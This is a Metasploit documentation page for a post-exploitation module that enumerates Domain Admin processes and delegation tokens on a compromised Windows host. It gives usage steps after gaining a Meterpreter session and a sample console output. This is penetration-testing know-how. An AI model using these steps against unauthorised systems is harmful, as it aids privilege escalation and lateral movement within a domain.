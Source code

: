 ## Vulnerable Application

This module enumerates Domain Admin account processes and delegation tokens.

This module will first check if the session has sufficient privileges
to replace process level tokens and adjust process quotas.

The SeAssignPrimaryTokenPrivilege privilege will not be assigned if
the session has been elevated to SYSTEM. In that case try first
migrating to another process that is running as SYSTEM.


## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a Windows target on a domain
1. Do: `use post/windows/gather/enum_tokens`
1. Do: `set session [#]`
1. Do: `run`
1. You should receive a list of Domain Admin account processes and delegation tokens


## Options

### GETSYSTEM

Attempt to get SYSTEM privilege on the target host. (default: `true`)


## Scenarios

### Local Administrator session on Windows Server 2008 SP1 (x64)

```
msf post(windows/gather/enum_tokens) > set session 1
session => 1
msf post(windows/gather/enum_tokens) > set getsystem false
getsystem => false
msf post(windows/gather/enum_tokens) > run

[*] Running module against WIN-17B09RRRJTG (192.168.200.218)
[+] Found token for session 1 (192.168.200.218) - Administrator (Delegation Token)
[+] Found process on session 1 (192.168.200.218) - Administrator (PID: 3344) (cmd.exe)
[+] Found process on session 1 (192.168.200.218) - Administrator (PID: 2420) (calc.exe)
[+] Found process on session 1 (192.168.200.218) - Administrator (PID: 2220) (reverse.x64.1337.exe)
[+] Found token for session 1 (192.168.200.218) - corpadmin (Delegation Token)
[+] Found process on session 1 (192.168.200.218) - corpadmin (PID: 1764) (cmd.exe)
[*] Post module execution completed
```
